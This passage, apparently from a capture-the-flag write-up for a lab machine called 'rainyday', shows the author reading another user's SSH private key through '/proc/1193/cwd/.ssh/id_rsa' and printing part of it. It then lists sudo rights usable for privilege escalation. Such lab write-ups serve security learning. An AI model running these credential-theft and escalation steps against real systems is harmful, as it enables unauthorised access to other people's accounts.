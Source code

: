 ```bash
SHELL=/bin/bash                       
SHLVL=0                     
SHLVL=1                             
SHLVL=2                             
SHLVL=3                             
SYSTEMD_EXEC_PID=1193                             
TERM=xterm-256color               
USER=jack                 
_=/usr/bin/sleep
```

- The `SYSTEMD_EXEC_PID=1193` and `HOME=/home/jack` showed that jack's home directory might be mounted on this process, and it does!

```bash
/tmp/test $ cat /proc/1193/cwd/.ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA7Ce/LAvrYP84rAa7QU51Y+HxWRC5qmmVX4wwiCuQlDqz73uvRkXq
qdDbDtTCnJUVwNJIFr4wIMrXAOvEp0PTaUY5xyk3KW4x9S1Gqu8sV1rft3Fb7rY1RxzUow
SjS+Ew+ws4cpAdl/BvrCrw9WFwEq7QcskUCON145N06NJqPgqJ7Z15Z63NMbKWRhvIoPRO
JDhAaulvxjKdJr7AqKAnt+pIJYDkDeAfYuPYghJN/neeRPan3ue3iExiLdk7OA/8PkEVF0
/pLldRcUB09RUIoMPm8CR7ES/58p9MMHIHYWztcMtjz7mAfTcbwczq5YX3eNbHo9YFpo95
MqTueSxiSKsOQjPIpWPJ9LVHFyCEOW5ONR/NeWjxCEsaIz2NzFtPq5tcaLZbdhKnyaHE6k
m2eS8i8uVlMbY/XnUpRR1PKvWZwiqlzb4F89AkqnFooztdubdFbozV0vM7UhqKxtmMAtnu
a20uKD7bZV8W/rWvl5UpZ2A+0UEGicsAecT4kUghAAAFiHftftN37X7TAAAAB3NzaC1yc2
EAAAGBAOwnvywL62D/OKwGu0FOdWPh8VkQuapplV+MMIgrkJQ6s+97r0ZF6qnQ2w7UwpyV
---
```

- This is jack's RSA private key, used it to login via SSH and got user.txt
- Another path which also came in my mind during this process, whenever I ran `whoami` or `id`, my uid was `1000` but I wasnt in `/etc/passwd` file, so another way to find this secret path is to find somewhere where my user is recognized!

---

## Privilege Escalation (Jack -> Jack_adm)

- `jack_adm` can run `safe_python` as sudo with no password, so I'll have to pivot from jack to jack_adm

```bash
jack@rainyday:~$ sudo -l
Matching Defaults entries for jack on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack may run the following commands on localhost:
    (jack_adm) NOPASSWD: /usr/bin/safe_python *

```

- Found secret key for Flask session in `secrets.py`
